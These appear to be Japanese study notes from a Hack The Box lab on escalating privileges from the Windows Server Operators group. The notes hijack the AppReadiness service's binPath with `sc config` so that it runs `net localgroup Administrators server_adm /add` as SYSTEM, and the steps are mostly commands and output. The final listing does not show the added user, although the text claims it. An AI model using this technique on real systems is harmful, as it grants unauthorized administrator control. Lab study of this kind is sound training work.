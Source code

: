 PsServiceを使用したサービス権限の確認
- Sysinternalsスイートの一部であるサービスビューア/コントローラー PsService を使用して、サービスに対する権限を確認できる
	- Server Operatorsグループが SERVICE_ALL_ACCESS アクセス権（このサービスに対する完全な制御権を与える）を持っていることがわかる
```cmd-session
C:\htb> c:\Tools\PsService.exe security AppReadiness

PsService v2.25 - Service information and configuration utility
Copyright (C) 2001-2010 Mark Russinovich
Sysinternals - www.sysinternals.com
<SNIP>
        [ALLOW] BUILTIN\Server Operators
                All.     <-- "All" は SERVICE_ALL_ACCESS に相当
```

ローカル管理者グループメンバーシップの確認
- 現在は、ローカル Administrators グループの現在のメンバーを確認し、私たちのターゲットアカウントが含まれていない
```cmd-session
C:\htb> net localgroup Administrators

Alias name     Administrators
Comment        Administrators have complete and unrestricted access to the computer/domain

Members

-------------------------------------------------------------------------------
Administrator
Domain Admins
Enterprise Admins
The command completed successfully.
```

サービスのバイナリパスの変更
- AppReadinessがSYSTEM権限で実行されることを利用し、サービスの実行ファイルパス (binPath) を変更して、現在のユーザーをデフォルトのローカルAdministratorsグループに追加するコマンドを実行させる
	- `sc config [サービス名] binPath= "[実行したいコマンド]" `という形式で、サービスが起動時に実行するプログラムを指定できる
	- ここでは、SYSTEM権限で「ローカルグループ Administrators にユーザー server_adm を追加する」コマンドを実行させている
```cmd-session
C:\htb> sc config AppReadiness binPath= "cmd /c net localgroup Administrators server_adm /add"

[SC] ChangeServiceConfig SUCCESS
```

サービスの開始
- サービスの開始は失敗するけど、これは当たり前
- バックグラウンドでコマンドはSYSTEM権限で実行されている
```cmd-session
C:\htb> sc start AppReadiness

[SC] StartService FAILED 1053:

The service did not respond to the start or control request in a timely fashion.
```

ローカル管理者グループメンバーシップの確認
- Administratorsグループのメンバーシップを確認すると、コマンドが正常に実行され、ユーザーが追加されていることがわかる
```cmd-session
C:\htb> net localgroup Administrators

Alias name     Administrators
Comment        Administrators have complete and unrestricted access to the computer/domain

Members

-------------------------------------------------------------------------------
Administrator
Domain Admins
Enterprise Admins
```